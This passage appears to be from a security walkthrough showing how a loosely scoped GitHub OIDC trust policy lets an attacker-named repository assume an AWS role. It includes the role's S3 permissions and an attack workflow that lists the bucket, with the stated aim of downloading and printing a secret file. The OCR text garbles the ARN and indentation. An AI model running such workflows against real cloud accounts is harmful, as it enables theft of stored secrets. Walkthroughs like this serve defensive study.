 ```js
{
    "RoleName": "pacsec_github",
    "PolicyName": "pacsec-bucket",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "ListBucket",
                "Effect": "Allow",
                "Action": "s3:ListBucket",
                "Resource": "arn:aws:s3:::pac-github"
            },
            {
                "Sid": "ReadWriteObjects",
                "Effect": "Allow",
                "Action": [
                    "s3:GetObject",
                    "s3:PutObject"
                ],
                "Resource": "arn:aws:s3:::pac-github/*"
            }
        ]
    }
}
```
Based on these permissions, the role has the permission to list, read, and write in the pac-github bucket.

**Step 2: Creating Malicious Workflows**

Now that we know that any repository corresponding to the PacificSecurity* standard can assume the role, we create a user on GitHub with the name PacificSecurityX and a repository called git_abuse within it. In the repository, we set up the following workflows:
- Workflow 1: List Bucket and Download File.
- This workflow will be used to:
- List the contents of the S3 bucket.
- Download a file that contains a secret.
- Display the contents of the file in the logs (simulating the extraction of sensitive information).

```yml
permissions:
id-token: write
contents: read

jobs:
abuse:
runs-on: ubuntu-latest
steps:
- name: Configure AWS Credentials
uses: aws-actions/configure-aws-credentials@v2
with:
aws-region: eu-west-1
role-to-assume: arn:aws: iam: : 058264466190 : role/pacsec_github
role-session-name: OIDCSession

- name: List Bucket Contents
id: list_bucket
run: |
    echo "Listing bucket contents ... "
    aws s3 ls s3://pac-github/ > bucket_contents.txt
    echo "Bucket contents:"
    cat bucket_contents.txt

```